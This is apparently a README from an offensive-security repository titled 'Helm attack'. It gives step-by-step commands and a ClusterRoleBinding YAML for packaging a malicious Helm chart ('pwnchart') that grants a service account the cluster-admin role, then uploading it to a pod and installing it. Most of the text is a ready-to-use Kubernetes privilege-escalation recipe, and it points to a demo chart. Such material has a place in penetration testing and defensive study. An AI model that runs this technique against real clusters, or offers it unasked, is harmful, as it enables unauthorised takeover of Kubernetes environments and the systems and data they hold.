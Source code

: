 # Helm attack

You can apply any kubernetes `.yaml` files via Helm.

## Create helm chart to give you `cluster-admin` role

1. `helm create pwnchart`

2. Navigate to `./pwnchart/templates/`

3. Create a `.yaml` like a regualar kubernetes yaml, e.g clusterrolebinding.

```yaml
apiVersion: rbac.authorization.k8s.io/v1beta1
kind: ClusterRoleBinding
metadata:
  name: kekpwned
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    namespace: {{ .Values.namespace }}
    name: {{ .Values.name }}
```

4. `helm package pwnchart`

5. Upload `pwnchart-<version>.tgz` to pod and run `helm install pwnchart-<version>.tgz`

> A demo chart is provided in [pwnchart](./pwnchart) folder
>
> Run `helm package pwnchart` to create a `.tgz` archive
